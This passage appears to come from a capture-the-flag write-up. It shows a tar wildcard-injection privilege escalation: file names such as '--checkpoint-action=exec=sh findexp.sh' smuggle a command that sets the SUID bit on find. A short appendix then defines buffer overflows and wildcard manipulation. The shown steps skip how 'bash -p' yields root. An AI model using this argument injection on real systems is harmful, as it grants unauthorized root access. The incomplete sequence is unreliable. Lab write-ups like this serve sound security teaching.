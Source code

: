 > **Another Method for Privilege Escalation with find Binary**
> 

```bash
spooky@anonymous-playground:/home/spooky$ echo "chmod u+s /usr/bin/find" > findexp.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh findexp.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$ cd /bin
spooky@anonymous-playground:/bin$ bash -p
bash-4.4$ whoami
whoami
root
```

# Appendix

## Binary Buffer Overflow

<aside>
💡

A Binary Buffer Overflow occurs when more data is written to a fixed-length buffer (a block of memory) than the buffer can handle. This overflow of data can overwrite adjacent memory locations, potentially causing unpredictable behavior, system crashes, or even allowing an attacker to execute arbitrary code. Buffer overflow vulnerabilities are particularly dangerous in programs written in low-level languages like C and C++, which don't automatically check if data fits into the allocated buffer.

</aside>

## Wildcard Manipulation

<aside>
💡

Wildcard Manipulation refers to the exploitation of wildcard characters (such as *, ?, [], etc.) in command-line interfaces, scripting languages, or file systems to manipulate files, execute commands, or trigger unintended behavior. It is commonly seen in Unix-like operating systems, where wildcards are used to represent sets of files or directories. In some cases, Wildcard Manipulation can be leveraged by attackers to exploit vulnerabilities or bypass certain restrictions, especially when a program or script uses wildcards in an unsafe manner. When wildcards are used in an unsafe or unintended manner, they can be exploited by attackers to gain unintended control over a system.

</aside>